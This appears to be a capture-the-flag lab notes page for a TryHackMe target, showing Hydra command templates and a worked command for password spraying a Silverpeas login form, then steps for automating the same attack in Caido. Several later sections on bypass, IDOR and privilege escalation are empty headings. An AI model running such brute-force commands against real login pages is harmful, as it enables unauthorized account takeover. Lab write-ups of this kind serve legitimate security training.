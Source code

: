 ## Performing Password Spraying with Hydra

```Bash
hydra -l [Username] -P [Password List] [Target Hostname] -s [Port] http-post-form "[Request URL Ending]:[Request-Body]:[Error Message for Invalid Login]"
```

### Example

```Bash
hydra -l scr1ptkiddy -P custom_passwords.txt silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:Login or password incorrect" -V -t 2
```

![[/image 14 3.png|image 14 3.png]]

## Performing Password Spraying with Caido

Install: [https://caido.io/download](https://caido.io/download)

```Bash
chmod +x caido.deb

dpkg -i caido.deb
```

Now run it, from either terminal or through GUI

- It will guide you through some steps to setup a project, install the certificate, etc
- Once completed, go to the Intercept ta and open the default browser

![[/image 15 3.png|image 15 3.png]]

Do the same process as before an initiate a data packet capture on the login page

- Make sure Queuing is enabled on Caido

![[/image 16 3.png|image 16 3.png]]

- Now either press CTRL + R or right click and sent to replay

![[/image 17 3.png|image 17 3.png]]

- Right click again and sent to “Automate”
- Select a placeholder of the password field and then select the type to be Simple List, now paste in the password list data

[](https://www.notion.soundefined)

## Alternative Exploit - Authentication Bypass

  

## Identifying and Exploiting IDORs

  

---

# Privilege Escalation

## Manual Priv Esc

## Automated Priv Esc